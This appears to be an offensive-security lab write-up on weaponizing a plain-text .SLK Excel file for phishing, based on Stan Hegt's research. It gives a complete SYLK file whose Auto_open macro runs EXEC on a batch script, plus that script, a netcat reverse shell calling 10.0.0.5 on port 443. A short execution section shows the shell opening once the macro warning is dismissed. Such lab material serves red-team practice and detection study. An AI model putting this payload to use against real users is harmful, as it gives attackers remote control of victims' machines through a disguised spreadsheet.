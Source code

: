 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked)

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code-tabs %}
{% code-tabs-item title="demo.slk" %}
```text
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

{% embed data="{\"url\":\"https://twitter.com/StanHacked/status/1049047727403937795\",\"type\":\"rich\",\"title\":\"Stan Hegt on Twitter\",\"description\":\"Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the @derbycon presentation of @ptrpieter and myself. Recording via @irongeek\_adc will be online soon! pic.twitter.com/ibsmqrj5S9— Stan Hegt \(@StanHacked\) October 7, 2018\\n\\n\",\"icon\":{\"type\":\"icon\",\"url\":\"https://abs.twimg.com/icons/apple-touch-icon-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pbs.twimg.com/media/Do717YQWwAAeXAQ.jpg:large\",\"width\":1536,\"height\":802,\"aspectRatio\":0.5221354166666666},\"embed\":{\"type\":\"app\",\"html\":\"<blockquote class=\\\"twitter-tweet\\\" data-dnt=\\\"true\\\" align=\\\"center\\\"><p lang=\\\"en\\\" dir=\\\"ltr\\\">Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the <a href=\\\"https://twitter.com/DerbyCon?ref\_src=twsrc%5Etfw\\\">@derbycon</a> presentation of <a href=\\\"https://twitter.com/ptrpieter?ref\_src=twsrc%5Etfw\\\">@ptrpieter</a> and myself. Recording via <a href=\\\"https://twitter.com/irongeek\_adc?ref\_src=twsrc%5Etfw\\\">@irongeek\_adc</a> will be online soon! <a href=\\\"https://t.co/ibsmqrj5S9\\\">pic.twitter.com/ibsmqrj5S9</a></p>&mdash; Stan Hegt \(@StanHacked\) <a href=\\\"https://twitter.com/StanHacked/status/1049047727403937795?ref\_src=twsrc%5Etfw\\\">October 7, 2018</a></blockquote>\\n<script async src=\\\"https://platform.twitter.com/widgets.js\\\" charset=\\\"utf-8\\\"></script>\\n\",\"maxWidth\":550,\"aspectRatio\":null}}" %}

